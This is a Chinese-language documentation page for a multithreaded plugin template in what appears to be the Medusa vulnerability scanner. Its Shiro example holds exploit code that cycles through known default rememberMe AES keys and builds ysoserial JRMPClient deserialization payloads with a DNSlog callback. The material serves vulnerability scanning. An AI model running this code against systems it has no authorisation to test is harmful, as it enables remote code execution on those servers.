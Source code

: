 ## 多线程模板

> 如果插件中有for循环请求并且循环基数超过3个，需要把常规插件模板替换为该模板

下面以`Shiro`插件作为例子

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
__author__ = 'Ascotbe'
from ClassCongregation import VulnerabilityDetails,UrlProcessing,ErrorLog,WriteFile,GetToolFilePath,ErrorHandling,Proxies,Dnslog,ThreadPool
import urllib3
import requests
import uuid
import base64
import time
import subprocess
from Crypto.Cipher import AES
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
class VulnerabilityInfo(object):
    def __init__(self,Medusa):
        .....
#以上内容和常规模板一样，这边就不做概述

def medusa(Url:str,RandomAgent:str,proxies:str=None,**kwargs)->None:
    proxies=Proxies().result(proxies)
    scheme, url, port = UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    ExpClass = "JRMPClient"
    CipherKey = ["kPH+bIxk5D2deZiIxcaaaA==", "2AvVhdsgUs0FSA3SDFAdag==", "3AvVhmFLUs0KTA3Kprsdag==",
                 "4AvVhmFLUs0KTA3Kprsdag==", "5AvVhmFLUs0KTA3Kprsdag==",
                 "5aaC5qKm5oqA5pyvAAAAAA==", "6ZmI6I2j5Y+R5aSn5ZOlAA==", "bWljcm9zAAAAAAAAAAAAAA==",
                 "wGiHplamyXlVB11UXWol8g=="
                 ]
    BLOCK_SIZE = AES.block_size
    PAD_FUNC = lambda s: s + ((BLOCK_SIZE - len(s) % BLOCK_SIZE) * chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)).encode()
    AES_MODE = AES.MODE_CBC
    AES_IV = uuid.uuid4().bytes
    payload_url = scheme + "://" + url + ":" + str(port)
    YsoserialPath=GetToolFilePath().Result()+"ysoserial.jar"
    Pool=ThreadPool()
    try:

        for key in CipherKey:
            DL = Dnslog()
            popen = subprocess.Popen(["java", "-jar", YsoserialPath, ExpClass, DL.dns_host()], stdout=subprocess.PIPE)
            file_body = PAD_FUNC((popen).stdout.read())
            Pool.Append(task,url=url,file_body=file_body,key=key,AES_MODE=AES_MODE,AES_IV=AES_IV,payload_url=payload_url,DL=DL,proxies=proxies,Uid=kwargs.get("Uid"),Sid=kwargs.get("Sid"))
        Pool.Start(10)#启动线程池
    except Exception as e:
        _ = VulnerabilityInfo('').info.get('algroup')
        ErrorLog().Write("Plugin Name:"+_+" ThreadPool ",e)  # 调用写入类传入URL和错误插件名

```
